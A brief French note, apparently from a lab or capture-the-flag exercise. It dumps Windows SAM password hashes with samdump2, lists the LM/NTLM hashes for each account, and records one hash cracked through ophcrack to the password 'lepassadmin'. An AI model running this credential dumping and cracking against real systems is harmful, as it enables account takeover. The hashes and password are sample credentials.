 # echo des hashes dans le fichier hashes
`samdump2 system sam -o hashes`

Administrateur:500:aad3b435b51404eeaad3b435b51404ee:7a6f82161a94195d89d87c952e00c9c9:::
*disabled* Invité:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* HelpAssistant:1000:aad3b435b51404eeaad3b435b51404ee:d12fa30418c1efa33a4858ae2efd06cd:::
*disabled* SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:2c88cca4743481a2affeb9842053e0a9:::
ASPNET:1004:aad3b435b51404eeaad3b435b51404ee:ffeaaab52e8425572c0f94ce07eba353:::
S3TH:1006:5be2f045fe0cda0caad3b435b51404ee:a1bbd487a747f1f2323d2ef782e1889e:::
DivX:1007:ec7205e1188ea8fcaad3b435b51404ee:ab46e7e667784f44848b08e75abbf564:::
Admin:1008:7330a4bd82a2c75925ad3b83fa6627c7:3f0f549fb91e89cbeb4f478fa96b2a8a:::
bravo:1009:28750d5bf5814da7b6fe535a75cb5552:2b9801806c5ff2863b3e6a03c2e7a3c6:::
lepassest:1010:fcdb94c2397b0d79e3fde35124ff2ad4:3dfd67bb0c7957ed3520c259e23ba5a4:::

# décryptage des NTLM hashes
http://www.objectif-securite.ch/en/ophcrack.php

prendre celui de lepassest fcdb94c2397b0d79e3fde35124ff2ad4:3dfd67bb0c7957ed3520c259e23ba5a4 qui donne lepassadmin
prendre celui de Admin 7330a4bd82a2c75925ad3b83fa6627c7:3f0f549fb91e89cbeb4f478fa96b2a8a
